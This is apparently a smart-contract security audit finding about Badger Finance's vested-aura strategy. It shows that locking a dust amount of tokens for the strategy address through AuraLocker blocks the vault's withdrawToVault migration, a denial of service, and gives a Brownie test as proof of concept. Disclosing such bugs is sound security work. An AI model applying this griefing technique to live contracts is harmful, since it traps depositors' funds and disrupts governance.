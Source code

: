 All funds can be migrated (withdrawn) at once to the caller vault by using the `BaseStrategy.withdrawToVault` function which internally calls `MyStrategy._withdrawAll`.

The latter function has the following check in place:

[MyStrategy.sol#L184-L187](https://github.com/Badger-Finance/vested-aura/blob/d504684e4f9b56660a9e6c6dfb839dcebac3c174/contracts/MyStrategy.sol#L184-L187)

```solidity
require(
    balanceOfPool() == 0 && LOCKER.balanceOf(address(this)) == 0,
    "You have to wait for unlock or have to manually rebalance out of it"
);
```

Funds can only be withdrawn (migrated) if the balance in `LOCKER` is fully unlocked.

By locking a small amount of want tokens via `AuraLocker.lock` with the `strategy` address, a malicious individual can cause DoS and prevent withdrawing and migrating funds to the vault.

### Proof of Concept

The following test case will replicate the DoS attack by locking "dust" want tokens for the `strategy` address. This causes `vault.withdrawToVault` to revert.

```python
def test_frontrun_migration(locker, deployer, vault, strategy, want, governance, keeper):
    # Setup
    randomUser = accounts[6]
    snap = SnapshotManager(vault, strategy, "StrategySnapshot")

    startingBalance = want.balanceOf(deployer)
    depositAmount = startingBalance // 2
    assert startingBalance >= depositAmount
    # End Setup

    # Deposit
    want.approve(vault, MaxUint256, {"from": deployer})
    snap.settDeposit(depositAmount, {"from": deployer})

    chain.sleep(15)
    chain.mine()

    vault.earn({"from": keeper})

    chain.snapshot()

    # Test no harvests
    chain.sleep(86400 * 250)  ## Wait 250 days so we can withdraw later
    chain.mine()

    before = {"settWant": want.balanceOf(vault), "stratWant": strategy.balanceOf()}

    strategy.prepareWithdrawAll({"from": governance})

    want.approve(locker, 1, {"from": deployer})
    locker.lock(strategy, 1, { "from": deployer }) # Donate "dust" want tokens to strategy

    vault.withdrawToVault({"from": governance}) # @audit-info reverts with "You have to wait for unlock or have to manually rebalance"

    after = {"settWant": want.balanceOf(vault), "stratWant": strategy.balanceOf()}

    assert after["settWant"] > before["settWant"]
    assert after["stratWant"] < before["stratWant"]
    assert after["stratWant"] == 0
```
